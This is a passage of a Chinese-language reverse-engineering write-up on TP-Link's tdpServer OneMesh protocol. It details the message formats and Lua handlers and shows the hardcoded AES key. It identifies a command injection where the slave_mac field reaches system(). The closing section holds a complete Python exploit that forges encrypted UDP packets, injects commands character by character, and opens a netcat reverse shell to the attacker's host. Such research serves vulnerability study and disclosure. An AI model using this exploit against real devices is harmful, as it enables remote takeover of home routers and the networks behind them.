  // sizeof(tdpd_msg) = 0x410
  struct tdpd_msg {
  	struct tdpd_msg_header header
      char payload[1024]; // 消息真正的内容填充在payload域里
  };
  ```

tdpd_server会根据opcode来选择相应的处理函数

- 0x1: Probe Request
- 0x4: Attach Master Request
- 0x7: Slave Key Offer Request

##### probe request

如果`tdpd_msg->opcode = 0x1`的话，数据包将由函数`tdpd_probe_request_process@(0x0412ED4)`来处理。WiFi拓展器需要构造出如下格式的**JSON请求报文**才能被该函数处理：

- ```json
  {
  	"method": "probe",
      "data": {
          "mac": "",
          "group_id": "",
          "ip": "",
          "model": "",
          "product_type": "",
          "operation_mode": "",
          "onemesh_role": "",
          "bridge_mode": "",
          "onemesh_support_version": "",
          "onemesh_support": ""
      }
  }
  ```

tdpd_probe_request_process会对其进行解析，之后会获取本身的设备信息并构造响应报文发送给对方。

##### attach_master request

如果`tdpd_msg->opcode = 0x4`的话，数据包将由函数`tdpd_attach_master_process@(0x0414650)`来处理。WiFi拓展器需要构造出如下格式的**JSON请求报文**才能被该函数处理：

- ```json
  {
  	"method": "attach_master",
      "data": {
          "group_id": "",
          "master_mac": "",
      }
  }
  ```

`tdpd_attach_master_process`首先对JSON报文进行解析，提取报文中的各个字段。

之后它会构造如下table传递给onemesh.lua的dispatch函数以获取onemesh的状态信息

- ```lua
  tb = {
  	form = "onemesh_info", 
      operation = "get_info"
  }
  ```

  这样的话`dispatch`函数就会调用`get_onemesh_info`函数。可以看到onemesh的状态信息包括: `group_id, role, slave_auto_attach_needed, slave_auto_join_needed, master_auto_probe_needed`

  ```lua
  function get_onemesh_info()
      local group_id = cursor:get("onemesh", "onemesh", "group_id")
      local role = cursor:get("onemesh", "onemesh", "role")
      local slave_auto_attach_needed = cursor:get("onemesh", "onemesh", "slave_auto_attach_needed")
      local slave_auto_join_needed = cursor:get("onemesh", "onemesh", "slave_auto_join_needed")
      local master_auto_probe_needed = cursor:get("onemesh", "onemesh", "master_auto_probe_needed")
      local res = {
          group_id = group_id,
          role = role,
          slave_auto_attach_needed = slave_auto_attach_needed,
          slave_auto_join_needed = slave_auto_join_needed,
          master_auto_probe_needed = master_auto_probe_needed
      }
      return res
  end
  ```

接着它会构造如下table传递给`onemesh.lua`的`dispatch`函数，以获取RSA公钥

- ```lua
  tb = {
  	form = "rsa_public",
      operation = "master_get"
  }
  ```

这样的话`dispatch`函数会调用`master_get_rsa_pub_key`函数

- ```lua
  function master_get_rsa_pub_key()
      local res = rsa:read_pubkey()
      luci.tools.debug.dumptable(res)
      -- res是一个table: {n = "", e = ""}
      return res
  end
  ```

之后`tdpd_attach_master_process`函数便会构造响应报文发送给WiFi拓展器。

- ```json
  {
  	"method": "attach_master_response",
      "data": {
          "group_id": "",
          "master_rsa_public_n": "",
          "master_rsa_public_e": ""
      }
      "error_code": 0
  }
  ```

  WiFi拓展器接收到n和e后可以用它来构造RSA public key。这个RSA public key是为WiFi拓展器发送第二个包(马上要说到的`slave_key_offer reqeust`)作准备

##### slave_key_offer reqeust

如果`tdpd_msg->opcode = 0x7`，则数据包将由函数`tdpd_slave_key_offer_process(@0x0414D14)`来进行处理。

WiFi拓展器需要构造出如下格式的**JSON请求报文**才能被该函数处理：

- ```json
  // 当"want_to_join"等于true时
  {
      "method": "slave_key_offer",
      "data": {
          "group_id": "",
          "ip": "",
          "slave_mac": "",
          "slave_private_account": "",  // 加密后的账号名与密码
          "slave_private_password": "",
          "want_to_join": true,
          "model": "",
          "product_type": "",
          "operation_mode": "",
          
          "signal_strength_24g": ,
          "signal_strength_5g": ,
          "link_speed_24g": ,
          "link_speed_5g": ,
          "level": ,
          "connection_type": "",
      }
  }
  
  // 当"want_to_join"等于false时
  {
      "method": "slave_key_offer",
      "data": {
          "group_id": "",
          "ip": "",
          "slave_mac": "",
          "slave_private_account": "",
          "slave_private_password": "",
          "want_to_join": true,
          "model": "",
          "product_type": "",
          "operation_mode": "",
      }
  }
  ```

`tdpd_slave_key_offer_process`会对上面的**JSON请求报文**进行解析

- ```c
  // 对报文的payload字段进行AES CBC解密
  aes_decrypt(buffer->payload, buffer->len, "TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP", plain_text, 0x400u);
  // 将解密后的内容重新拷贝到tdpd_msg->payload里
  memcpy(buffer->payload, plain_text, strlen(plain_text));
  buffer->len = strlen(plain_text);
  // 对JSON请求报文进行解析
  msg_json = cJSON_Parse(buffer->payload);
  method_obj = cJSON_GetObjectItem(msg_json, "method");
  data_obj = cJSON_GetObjectItem(msg_json, "data");
  group_id_obj = cJSON_GetObjectItem(data_obj, "group_id");
  slave_mac_obj = cJSON_GetObjectItem(data_obj, "slave_mac");
  // ...
  ```

​	然后构造出如下的JSON对象，接着将该JSON对象传递给函数`update_client_list_file(@0x0410EAC)`，从命名就可以看出来该函数的功能是用来更新client_list文件的内容

- ```json
  {
      "success": true,
      "mac": "", // 等于上面的"slave_mac"
      "StationGrid": [],
      "device": {
         	"ip": "",
          "mac": "",
          "product_name": "", // 等于上面的"model"
          "device_type": "",  // 等于上面的"product_type"
          "operation_mode": "",
          "signal_strength_24g": ,
          "signal_strength_5g": ,
          "link_speed_24g": ,
          "link_speed_5g": ,
          "level": ,
          "connection_type": "",
      }
  }
  ```

- `update_client_list_file(@0x0410EAC)`会打开文件`/tmp/sync-server/onemesh_client_list`，**该文件以JSON格式保存了连接上该路由器的所有WiFi拓展器的设备信息**。格式大概如下：

  - ```json
    {
        "onemesh_client_list": [
            {
                "device": {
                    "mac": ""
                    // ...
                }
            }
        ]
    }
    ```

    `update_client_list_file`会从`tdpd_slave_key_offer_process`函数构造的JSON对象中提取出"device"成员，并将其添加到`/tmp/sync-server/onemesh_client_list`中

现在回到`tdpd_slave_key_offer_process`函数中，该函数在调用完`update_client_list_file`之后，会通过onemesh.lua对**JSON请求报文**中的`slave_private_account`和`slave_private_password`字段进行解密。之后通过onemesh.lua获得slave_mac指定的client的信息，信息由如下结构体进行描述：

- ```c
  struct onemesh_client_account
  {
    char mac[18];
    char is_exist[2];
    char want_to_join[2];
    char account[520];
    char password[520];
  };
  ```

然后将解密后的用户名密码与上面结构体中的用户名密码进行比对，如果有哪个字段不一样，就调用onemesh.lua对信息进行更新。

之后便开始构造**JSON响应报文**，其格式如下所示：

- ```json
  {
  	"method": "slave_key_offer_response",
      "data": {
          "group_id": ""
      }
  }
  ```

紧接着获取共享内存，在共享内存中以slave_mac进行搜索，找到目标项，对其中的数据进行更新。(共享内存里保存的是OneMesh网络上所有设备的信息，与上面的onemesh_client_list不同)

- ```c
  shared_buffer = get_shared_buffer();
  if ( shared_buffer ) {
      is_not_found = find_onemesh_client_in_shared_memory(
          &account_info, 
          shared_buffer, 
          64, 
          &index_in_shared_memory
      );
      target_client_in_shm = &shared_buffer[index_in_shared_memory];
      if ( is_not_found ) {
  		// 没有在共享内存中找到mac所指定的项，则创建一个新的项
          time(&cur_time) == -1 );
          target_client_in_shm->field_269 = 1;
          target_client_in_shm->is_want_to_join = is_want_to_join;
          memset(target_client_in_shm, 0, sizeof(onemesh_client_info));
          memcpy(target_client_in_shm, &req_info, sizeof(onemesh_client_info));
      }
      else {
          strncpy(target_client_in_shm->group_id, req_info.onemesh_info, 0x40u);
          strncpy(target_client_in_shm->mac, req_info.slave_mac, 0x12u);
          strncpy(target_client_in_shm->ip, req_info.ip, 0x10u);
          strncpy(target_client_in_shm->mac, req_info.slave_mac, 0x12u);
          strncpy(target_client_in_shm->product_type, req_info.product_type, 0x20u);
          strncpy(target_client_in_shm->operation_mode, req_info.operation_mode, 0x10u);
          target_client_in_shm->is_want_to_join = is_want_to_join;
          target_client_in_shm->field_269 = 1;
          HIBYTE(target_client_in_shm->field_26C) = 1;
      }
  ```

之后便是调用lua脚本干一些不清楚的事情：

- ```c
  v62 = 0;
  debug("tdpOneMesh.c:3363", "Sync wifi for specified mac %s start.....", account_info.slave_mac);
  memset(v91, 0, sizeof(v91));
  snprintf(
      v91,
      0x1FFu,
      "lua -e 'require(\"luci.controller.admin.onemesh\").sync_wifi_specified({mac=\"%s\"})'",
      account_info.slave_mac);
  debug("tdpOneMesh.c:3368", "systemCmd: %s", v91);
  system(v91);
  debug("tdpOneMesh.c:3370", "Sync wifi for specified mac %s end.....", account_info.slave_mac);
  goto LABEL_71;
  ```

  **这里就存在命令注入**

#### start_tdp_onemesh(@0x040D518)

start_tdp_onemesh的函数体非常简单。首先获取当前设备在OneMesh网络中的role，然后根据role选择相应的处理函数。

- ```c
  int start_tdp_onemesh()
  {
      struct onemesh_state_info onemesh_info;
      debug("tdpdServer.c:1501", "tdp OneMesh Uloop Start!!!");
      onemesh_auto_probe_timeout.cb = onemesh_auto_probe_fun;
      onemesh_aoto_attach_timeout.cb = onemesh_aoto_attach_fun;
      get_onemesh_info_from_lua(&onemesh_info);
      if (!strcmp(onemesh_info.role, "master"))
          onemesh_auto_probe_call(); 	// 如果是master，就尝试探测OneMesh网络里的所有设备
      else if (!strcmp(onemesh_info.role, "slave"))
          onemesh_auto_attach_call();
      else
          debug("tdpdServer.c:1520", "Invalid role!!!");
      uloop_init();
      uloop_run();
      uloop_done();
      return 0;
  }
  ```

##### master

与slave对应的处理函数是`onemesh_auto_probe_call(@0x040B9B0)`。其功能就是定期广播Probe Request消息包，以获取OneMesh网络上所有设备的信息，并将这些设备的信息保存到共享内存上。

##### slave

与slave对应的处理函数是`onemesh_auto_attach_call(@0x040BE60)`，其执行流程如下

1. 获取当前设备在OneMesh网络中的状态信息，这些信息包括：`group_id, role，slave_auto_attach_needed，slave_auto_join_needed，master_auto_probe_needed`。然后判断`slave_auto_attach_needed` 是否等于`"0"`，如果相等，说明目前不需要attach，设置定时器时间之后就return了。

   - ```c
     debug("tdpdServer.c:408", "Entering onemesh_auto_attach_call()...");
     if (get_onemesh_info_from_uci(&onemesh_info) > 0) { // 获取设备信息
         debug("tdpdServer.c:415", "Failed to get onemesh info");
         return uloop_timeout_set(&onemesh_aoto_attach_timeout, 3000);
     }
     if (!strcmp(&onemesh_info.slave_auto_attach_needed, "0")) { // 判断当前是否需要auto_attach
         debug("tdpdServer.c:421", "No need to auto attach now.");
         return uloop_timeout_set(&onemesh_aoto_attach_timeout, 3000);
     }
     ```

2. 之后调用`do_probe_request(@0x0412840)`函数探测OneMesh网络里的所有设备信息，该函数会将这些设备信息填充到共享内存里，方便后续查看。这一步是为了下一步作准备

3. 然后便调用`try_attach_master_device(@0x04142D0)`函数

   1. 该函数首先调用`find_first_master_mac_and_ip(@0x040F384)`函数，在共享内存中查找第一个role为"master"的设备(相当于搜索OneMesh网络里的master设备)，获取到该设备的MAC地址与IP地址。

      - ```c
        int find_first_master_mac_and_ip(char *mac_out, char *ip_out) 
        {
            onemesh_client_info *shm_ptr = get_shared_buffer(); // 获取共享内存
            int index = 0;
            do { // 遍历共享内存中的每一个设备信息
                debug("tdpSharedBuf.c:654", "index is %d, mac is %s", index, shm_ptr->mac);
                ++index;
                if (!strcmp(v6->onemesh_role, "master")) {
                    debug("tdpSharedBuf.c:663", "master mac %s", shm_ptr->mac);
                    strncpy(mac_out, shm_ptr->mac, 0x12u);
                    strncpy(ip_out, shm_ptr->ip, 0x10u);
                    break;
                }
                shm_ptr++;
            } while ( index != 64 );
            detach_shared_memory(shm_ptr);
        }
        ```

   2. 然后创建一个UDP socket，并构建`Attach Master Request`消息包，并将消息包发送给上一步找到的master设备。发送AttachMasterRequest消息包的目的是想要Attach上OneMesh Router。

      - ```c
        struct tdp_client_info {
            int timeout;
            int udp_socket;
            char field_8[16];
            char ip_addrinfo[128];
            int addrinfo_len;
            tdpd_msg msg;
        };
        
        // 创建一个UDP socket，并用socket和ip,port信息填充tdp_client_info结构体
        struct tdp_client_info *master_info = create_udp_socket_from_ip(master_ip);
        // 构建Attach Master Request消息包
        prepare_attach_master_msg(master_info, master_mac);
        // 将消息包发送给master device
        send_tdp_message(master_info);
        ```
        
      - 构建的消息包格式如下：
   
        ```json
        {
        	"method": "attach_master",
            "data": {
                "group_id": "", 
                "master_mac": "",
            }
        }
        ```
   
   3. 调用`recv_reply_and_decrypt(@0x0410444)`接收AttachMasterRequest的响应数据包，并对其payload域进行AES CBC解密。
   
      - ```c
        v7 = recv_reply_and_decrypt(master_info);
        if (v7 < 0)
            debug("tdpOneMesh.c:2538", "Failed to recv packet");
        else if (v7 == 1)
            debug("tdpOneMesh.c:2543", "Timeout, must return now");
        ```
   
      - 其响应数据包格式在start_tdpd_server中已经说过了，再贴出来一下
   
        ```json
        {
        	"method": "attach_master_response",
            "data": {
                "group_id": "",
                "master_rsa_public_n": "",
                "master_rsa_public_e": ""
            }
            "error_code": 0
        }
        ```
   
   4. 然后调用`process_attach_master_response(@0x04109F4)`函数对接收到的响应数据包进行解析，提取出其中的`"master_rsa_public_n"`与`"master_rsa_public_e"`，然后调用onemesh.lua脚本对路由器发送过来的公钥保存下来。
   
      - 其会构造如下的table传递给onemesh.lua的`dispatch`函数
   
        ```lua
        tb = {
        	form = "rsa_public",
            operation = "slave_store",
            n = "", -- 等于master_rsa_public_n
            e = "", -- 等于master_rsa_public_e
        }
        ```
   
      - 这样就会调用到onemesh.lua里的`slave_store_rsa_pub_key`函数。该函数会将RSA公钥保存到`/tmp/onemesh_master_rsa_pub`文件中。
   
        ```lua
        function slave_store_rsa_pub_key(pub_key)
            if pub_key.n == nil or pub_key.e == nil then
                return false    
            end
            master_rsa_pub_file_Lock()
            local master_rsa_pub_fp = io.open("/tmp/onemesh_master_rsa_pub", "w")
            master_rsa_pub_fp:write("n=", pub_key.n, "\n", "e=", pub_key.e, "\n")
            master_rsa_pub_fp:close()
            master_rsa_pub_file_UnLock()
            return true
        end
        ```
   
   5. 接下来调用`tdpd_slave_key_offer_process(@0x0414D14)`来构造`Slave Key Offer Request`消息包发送给master device。该函数会调用lua脚本获取设备本身的MAC地址，group_id，当前的系统模式(Router or AP)，IP地址等等。**最重要的是调用onemesh.lua脚本获取自己的RSA私钥，并用上一步获取的公钥对自己的私钥进行加密**，用加密结果填充请求包的`slave_private_account`和`slave_private_password`字段。
   
      - 其会构造如下的table传递给onemesh.lua的dispatch函数
   
        ```lua
        tb = {
        	form = "slave_key",
            operation = "slave_offer",
        }
        ```
   
      - 这样会调用到onemesh.lua的`slave_offer_enc_slave_key`函数。该函数首先从`/tmp/onemesh_master_rsa_pub`文件中读取出上一步保存的从OneMesh Router发送过来的RSA公钥，然后调用`slave_get_slave_key`函数来生成自己的RSA私钥(第一次调用时会调用slave_generate_slave_key函数，该函数通过openssl生成RSA私钥)，之后用公钥来加密自己的私钥，并将加密结果返回。
   
        ```lua
        function slave_fetch_rsa_pub_key()
            master_rsa_pub_file_Lock()
            local master_rsa_pub_fp = io.open("/tmp/onemesh_master_rsa_pub", "r")
            local content = master_rsa_pub_fp:read(*a)
            master_rsa_pub_fp:close()
            master_rsa_pub_file_UnLock()
            local n, e = string.match(content, "n=([%w%p]+)%s+e=([%w%p]+)%s*")
            local res = {
                n = n,
                e = e
            }
            luci.tools.debug.dumptable(res)
            return res
        end
        
        function slave_get_slave_key()
            local account_key = cursor:get("onemesh", "onemesh_pri_sync", "username")
            local passwd_key = cursor:get("onemesh", "onemesh_pri_sync", "password")
            if account_key == nil or passwd_key == nil then
                slave_generate_slave_key()
                account_key = cursor:get("onemesh", "onemesh_pri_sync", "username")
                passwd_key = cursor:get("onemesh", "onemesh_pri_sync", "password")
            end
            local encrypted_account_key = aes_encrypt(account_key)
            local encrypted_passwd_key = aes_encrypt(passwd_key)
            local val = {
                username = encrypted_account_key,
                password = encrypted_passwd_key
            }
            luci.tools.debug.dumptable(val)
            return val
        end
        
        function rsa_enc_slave_key(username_key, passwd_key, n, e)
            local pub_key = {
                n = n,
                e = e
            }
            local encrypted_username_key = rsa.encrypt(username_key, pub_key)
            local encrypted_passwd_key = rsa.encrypt(passwd_key, pub_key)
            res = {
                enc_tmp_username = encrypted_username_key,
                enc_tmp_passwd = encrypted_passwd_key
            }
            luci.tools.debug.dumptable(res)
            return res
        end
        
        function slave_offer_enc_slave_key() 
            local pub_key = slave_fetch_rsa_pub_key()
            local private_key = slave_get_slave_key()
            local res = rsa_enc_slave_key(private_key.username, private_key.password, pub_key.n, pub_key.e)
            luci.tools.debug.dumptable(res)
            return res
        end
        ```
   
   6. 发送完Slave Key Offer Request消息后，便等待接收响应消息。接收到响应报文后，对其进行解析检查合法性，并设置OneMesh Router发送过来的group_id。之后便调用lua脚本设置自己的OneMesh状态。
   
      - ```lua
        function onemesh_set_slave_attach(info)
            luci.tools.debug.print("onemesh_set_slave_attach")
            luci.tools.debug.print(info)
            if info.setJoin == "1" then
                val = {
                    slave_auto_attach_needed = slave_auto_attach_needed,
                    slave_auto_join_needed = slave_auto_join_needed
                }
                cursor:section("onemesh", "onemesh", "onemesh", val)
            else
                val = {
                    slave_auto_attach_needed = slave_auto_attach_needed,
                }
                cursor:section("onemesh", "onemesh", "onemesh", val)
            end
            cursor:commit("onemesh")
        end
        ```

### ④ 图解整个流程

WiFi Range Extender与OneMesh Router之间的通信关系如下

1. 首先是广播Probe Request消息，获取OneMesh网络上所有设备的信息，并将设备信息保存到共享内存里。遍历设备信息，找到其中是Master的设备。

   ```mermaid
   stateDiagram
   A: WiFi Range Extender(Slave)
   B: Device A(Slave)
   C: Device B(Master)
   D: Device C(Slave)
   
   A --> B : Probe Request
   A --> C : Probe Request
   A --> D : Probe Request
   
   B --> A : Probe Reply
   C --> A : Probe Reply
   D --> A : Probe Reply
   ```

2. 找到Master设备后，就尝试attach上它(图中的Device B)

   ```mermaid
   sequenceDiagram
   participant A as Range Extender(slave)
   participant B as Device B(Master)
   
   A -->> A: 构造Attach Master Request消息包
   A ->>  B: 将消息包发送给Master
   B -->> B: 调用onemesh.lua获取自己的RSA公钥
   B -->> B: 利用公钥构造Attach Master Reply消息包
   B ->>  A: 将响应包发送给Range Extender
   A -->> A: 调用onemesh.lua将获取的RSA公钥保存起来
   A -->> A: 调用onemesh.lua生成自己的RSA私钥，并用上一步的公钥加密
   A -->> A: 利用上一步的加密结果构造Slave Key Offer Request消息包
   A ->>  B: 将消息包发送给Master
   B -->> B: 使用私钥解密消息包里的slave_private_account/password
   B -->> B: 将Range Extender加入到自己的onemesh_client_list里
   Note right of B: 还会调用onemesh.lua将Range Extender的私钥保存下来
   B -->> B: 尝试更新共享内存的数据
   Note right of B: 共享内存里保存的是OneMesh网络上所有设备的信息
   B -->> B: 构造Slave Key Offer Reply消息包
   B ->>  A: 将响应包发送给Range Extender
   A -->> A: 更新自己的group_id(根据响应包里的数据)
   A -->> A: 调用onemesh.lua更新自己的onemesh状态
   ```

## 漏洞利用

```python
import socket
from struct import pack
from Crypto.Cipher import AES
import ctypes
from pwn import *

context.binary = "./tdpServer"

ip = "192.168.2.3"
port = 20002

def get_checksum(payload, length):
    table = [0, 0x77073096, 0xEE0E612C, 0x990951BA, 0x76DC419,
    0x706AF48F, 0xE963A535, 0x9E6495A3, 0xEDB8832, 0x79DCB8A4,
    0xE0D5E91E, 0x97D2D988, 0x9B64C2B, 0x7EB17CBD, 0xE7B82D07,
    0x90BF1D91, 0x1DB71064, 0x6AB020F2, 0xF3B97148, 0x84BE41DE,
    0x1ADAD47D, 0x6DDDE4EB, 0xF4D4B551, 0x83D385C7, 0x136C9856,
    0x646BA8C0, 0xFD62F97A, 0x8A65C9EC, 0x14015C4F, 0x63066CD9,
    0xFA0F3D63, 0x8D080DF5, 0x3B6E20C8, 0x4C69105E, 0xD56041E4,
    0xA2677172, 0x3C03E4D1, 0x4B04D447, 0xD20D85FD, 0xA50AB56B,
    0x35B5A8FA, 0x42B2986C, 0xDBBBC9D6, 0xACBCF940, 0x32D86CE3,
    0x45DF5C75, 0xDCD60DCF, 0xABD13D59, 0x26D930AC, 0x51DE003A,
    0xC8D75180, 0xBFD06116, 0x21B4F4B5, 0x56B3C423, 0xCFBA9599,
    0xB8BDA50F, 0x2802B89E, 0x5F058808, 0xC60CD9B2, 0xB10BE924,
    0x2F6F7C87, 0x58684C11, 0xC1611DAB, 0xB6662D3D, 0x76DC4190,
    0x1DB7106, 0x98D220BC, 0xEFD5102A, 0x71B18589, 0x6B6B51F,
    0x9FBFE4A5, 0xE8B8D433, 0x7807C9A2, 0xF00F934, 0x9609A88E,
    0xE10E9818, 0x7F6A0DBB, 0x86D3D2D, 0x91646C97, 0xE6635C01,
    0x6B6B51F4, 0x1C6C6162, 0x856530D8, 0xF262004E, 0x6C0695ED,
    0x1B01A57B, 0x8208F4C1, 0xF50FC457, 0x65B0D9C6, 0x12B7E950,
    0x8BBEB8EA, 0xFCB9887C, 0x62DD1DDF, 0x15DA2D49, 0x8CD37CF3,
    0xFBD44C65, 0x4DB26158, 0x3AB551CE, 0xA3BC0074, 0xD4BB30E2,
    0x4ADFA541, 0x3DD895D7, 0xA4D1C46D, 0xD3D6F4FB, 0x4369E96A,
    0x346ED9FC, 0xAD678846, 0xDA60B8D0, 0x44042D73, 0x33031DE5,
    0xAA0A4C5F, 0xDD0D7CC9, 0x5005713C, 0x270241AA, 0xBE0B1010,
    0xC90C2086, 0x5768B525, 0x206F85B3, 0xB966D409, 0xCE61E49F,
    0x5EDEF90E, 0x29D9C998, 0xB0D09822, 0xC7D7A8B4, 0x59B33D17,
    0x2EB40D81, 0xB7BD5C3B, 0xC0BA6CAD, 0xEDB88320, 0x9ABFB3B6,
    0x3B6E20C, 0x74B1D29A, 0xEAD54739, 0x9DD277AF, 0x4DB2615,
    0x73DC1683, 0xE3630B12, 0x94643B84, 0xD6D6A3E, 0x7A6A5AA8,
    0xE40ECF0B, 0x9309FF9D, 0xA00AE27, 0x7D079EB1, 0xF00F9344,
    0x8708A3D2, 0x1E01F268, 0x6906C2FE, 0xF762575D, 0x806567CB,
    0x196C3671, 0x6E6B06E7, 0xFED41B76, 0x89D32BE0, 0x10DA7A5A,
    0x67DD4ACC, 0xF9B9DF6F, 0x8EBEEFF9, 0x17B7BE43, 0x60B08ED5,
    0xD6D6A3E8, 0xA1D1937E, 0x38D8C2C4, 0x4FDFF252, 0xD1BB67F1,
    0xA6BC5767, 0x3FB506DD, 0x48B2364B, 0xD80D2BDA, 0xAF0A1B4C,
    0x36034AF6, 0x41047A60, 0xDF60EFC3, 0xA867DF55, 0x316E8EEF,
    0x4669BE79, 0xCB61B38C, 0xBC66831A, 0x256FD2A0, 0x5268E236,
    0xCC0C7795, 0xBB0B4703, 0x220216B9, 0x5505262F, 0xC5BA3BBE,
    0xB2BD0B28, 0x2BB45A92, 0x5CB36A04, 0xC2D7FFA7, 0xB5D0CF31,
    0x2CD99E8B, 0x5BDEAE1D, 0x9B64C2B0, 0xEC63F226, 0x756AA39C,
    0x26D930A, 0x9C0906A9, 0xEB0E363F, 0x72076785, 0x5005713,
    0x95BF4A82, 0xE2B87A14, 0x7BB12BAE, 0xCB61B38, 0x92D28E9B,
    0xE5D5BE0D, 0x7CDCEFB7, 0xBDBDF21, 0x86D3D2D4, 0xF1D4E242,
    0x68DDB3F8, 0x1FDA836E, 0x81BE16CD, 0xF6B9265B, 0x6FB077E1,
    0x18B74777, 0x88085AE6, 0xFF0F6A70, 0x66063BCA, 0x11010B5C,
    0x8F659EFF, 0xF862AE69, 0x616BFFD3, 0x166CCF45, 0xA00AE278,
    0xD70DD2EE, 0x4E048354, 0x3903B3C2, 0xA7672661, 0xD06016F7,
    0x4969474D, 0x3E6E77DB, 0xAED16A4A, 0xD9D65ADC, 0x40DF0B66,
    0x37D83BF0, 0xA9BCAE53, 0xDEBB9EC5, 0x47B2CF7F, 0x30B5FFE9,
    0xBDBDF21C, 0xCABAC28A, 0x53B39330, 0x24B4A3A6, 0xBAD03605,
    0xCDD70693, 0x54DE5729, 0x23D967BF, 0xB3667A2E, 0xC4614AB8,
    0x5D681B02, 0x2A6F2B94, 0xB40BBE37, 0xC30C8EA1, 0x5A05DF1B,0x2D02EF8D]
    checksum = ctypes.c_uint32(0xFFFFFFFF)
    for val in payload:
        tmp = ctypes.c_uint32(val)
        checksum.value = table[(tmp.value ^ checksum.value)%256] ^ (checksum.value >> 8)
    checksum.value = ~checksum.value;
    return checksum.value

def aes_encrypt(payload):
    aes_key = b"TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP"[:16]
    iv = b"1234567890abcdef1234567890abcdef"[:16]
    aes = AES.new(aes_key, AES.MODE_CBC, iv)

    payload_len = ((len(payload) + 15) // 16) * 16
    payload = payload.ljust(payload_len, b'\x00') 

    cipher_text = aes.encrypt(payload)
    return cipher_text

def make_message(opcode, length, flags, checksum, msg):
    payload = b""
    payload += p8(1)   # version
    payload += p8(240) # reserved
    payload += p16(opcode)
    payload += p16(length)
    payload += p8(flags) + p8(0)
    payload += p32(0) # serial number
    payload += p32(checksum)
    payload += msg
    return payload

def make_packet(opcode, flags, payload):
    cipher_payload = aes_encrypt(payload)
    cipher_length = len(cipher_payload)
    pre_packet = make_message(opcode, cipher_length, flags, 0x5A6B7C8D, cipher_payload)
    checksum = get_checksum(pre_packet, cipher_length + 0x10) # sizeof(header) = 0x10
    packet = make_message(opcode, cipher_length, flags, checksum, cipher_payload)
    return packet

# lua -e 'require(\"luci.controller.admin.onemesh\").sync_wifi_specified({mac=\"%s\"})'
def command_inject_once(cmd):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    wrapper = b"';%s'"%(cmd)
    payload = b'''
        {
            "method": "slave_key_offer",
            "data": {
                "group_id": "123",
                "ip": "192.168.1.1",
                "slave_mac": "%s",
                "slave_private_account": "d1tto",
                "slave_private_password": "d1tto",
                "slave": "d1tto",
                "want_to_join": false,
                "model": "123",
                "product_type": "123",
                "operation_mode": "123"
            }
        }
    '''%(wrapper)
    packet = make_packet(7, 1, payload)
    sock.sendto(packet, (ip, port))
    data = sock.recvfrom(10)
    print(data)

def exexute_cmd(cmd):
    for c in cmd:
        tmp = b"printf '%s'>x"%(chr(c).encode())
        command_inject_once(tmp)
        command_inject_once(b"cat x*>>D")
    command_inject_once(b"sh D*")

myip = b"192.168.2.2"
# https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell
cmd = b"nc -e /bin/sh %s 8888"%(myip)
exexute_cmd(cmd)
```


https://vovohelo.medium.com/unscrambling-lua-7bccb3d5660

https://github.com/bananabr/ulua


https://blog.dsinf.net/2021/02/hacking-into-tp-link-archer-c6-shell-access-without-physical-disassembly/


Probe Request：是WiFi拓展器向无线路由器查询指定的slave设备信息的。


如果是slave，则尝试attach上master

如果是master，则尝试probe(探测)slave


master应该就是路由器，而slave就是WiFi拓展器


ubus_object中包含的method

- onemesh_list_devices
- onemesh_available_devices

- onemesh_clean_devices
- onemesh_probe
  - count, timeout
- onemesh_add_slave
  - slave_mac, timeout
- onemesh_attach_master
  - master_mac, wantJoin，timeout
- onemesh_auto_attach_master
  - wantJoin


# 参考文章

- https://labs.f-secure.com/advisories/tp-link-ac1750-pwn2own-2019/

- https://www.zerodayinitiative.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo

- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/misc/tplink_archer_a7_c7_lan_rce

- https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Tokyo_2019/lao_bomb/lao_bomb.md
- [TP-Link WiFi拓展器](https://service.tp-link.com.cn/detail_article_3035.html)

- [TP-Link OneMesh](https://www.tp-link.com/us/onemesh/)

- https://blog.ihipop.com/2018/05/5110.html
